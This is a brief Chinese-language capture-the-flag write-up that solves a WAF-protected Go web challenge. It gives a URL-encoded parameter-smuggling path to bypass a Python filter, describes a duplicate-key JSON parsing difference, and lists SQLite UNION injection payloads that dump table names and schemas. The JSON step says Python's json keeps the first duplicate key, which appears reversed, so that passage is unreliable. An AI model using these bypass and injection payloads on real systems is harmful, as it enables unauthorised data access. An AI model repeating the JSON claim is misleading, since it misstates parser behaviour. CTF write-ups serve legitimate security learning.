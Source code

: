 ### 1,  golang main.go /gettoken接口，只有当promocode参数是FREEWAF时，才返回token. 但waf.py 对/gettoken请求参数promocode=FREEWAF时，直接400返回
```
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})
```
通过 /gettoken%3fpromocode=FREEWAF?promocode=111&creditcard=222 发送到waf.py, 

requests.get请求到golang main.go时，请求变成：
    ```
    /gettoken?promocode=FREEWAF&promocode=111&creditcard=222
    ```，成功获取token.
      
  

### 2,  Golang github.com/buger/jsonparser 与 python json 解析json 
    eg. {"t1":"1", "t2":"2", "t1":"3"} 字符串：

    python json会解析成 {"t1":"1", "t2":"2"}
    
    Golang github.com/buger/jsonparser 解析成 {"t1":"3", "t2":"2"}
  


### 3， sqlite3 sql 注入
     获取table name：
     datandard1' union select tbl_name, 2,3,'4' from sqlite_master where type='table'--
     获取列名：
     datandard1' union select sql, 2,3,'4' from sqlite_master--
     获奖flag
     ![alt text](flag.png)
     
